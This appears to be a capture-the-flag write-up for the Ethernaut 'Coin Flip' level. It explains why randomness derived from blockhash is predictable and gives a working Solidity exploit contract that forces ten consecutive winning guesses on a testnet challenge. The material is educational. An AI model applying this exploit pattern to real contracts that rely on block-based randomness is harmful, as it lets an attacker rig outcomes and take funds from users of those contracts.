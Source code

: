 # 03. Coin Flip

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

Things that might help:

- See the Help page above, section "Beyond the console"

## Solution

The algorithm does not use a valid RNG generator. The random number is generated as:

```solidity
// 1. Get block hash
uint256 blockValue = uint256(blockhash(block.number.sub(1)));

// 2. Verify value is not equals to the last one
if (lastHash == blockValue) {
  revert();
}
lastHash = blockValue;

// 3. Divide the blockValue for a static variable
uint256 coinFlip = blockValue.div(FACTOR);

// 4. RNG (?) :D
bool side = coinFlip == 1 ? true : false;
```

From [solidity docs](https://docs.soliditylang.org/en/v0.4.24/units-and-global-variables.html#block-and-transaction-properties):

> `block.number (uint)`: current block number

> `block.blockhash(uint blockNumber) returns (bytes32)`: hash of the given block - only works for 256 most recent, excluding current, blocks - deprecated in version 0.4.22 and replaced by `blockhash(uint blockNumber)`.

This is not an actual random generation function and it shouldn't be used as it allows a bad actor to predict the result of the estraction.

To complete the challenge we need to create an our contract on Rinkeby that calculate the winning side and submit it to the actual contract.

```solidity
// Copy everything from the challenge contract
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/6be0b410dcb77bc046cd3c960b4170368c502162/contracts/math/SafeMath.sol';
contract CoinFlip {
  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  constructor() public {
    consecutiveWins = 0;
  }
  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    if (lastHash == blockValue) {
      revert();
    }
    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
// Then create the Exploit contract we will use to win the challenge
contract ExploitContract {
  using SafeMath for uint256;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  address originalAddress = 0x6370131977a2955c0bA8Bf319477A853580eb592; // change according to the challenge address
  CoinFlip public originalContract = CoinFlip(originalAddress);
  function exploit() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    originalContract.flip(side);
  }
}
```

Submit exploit function for ten times. Then in the challenge console:

```javascript
(await contract.consecutiveWins()).words[0]
// 10
```
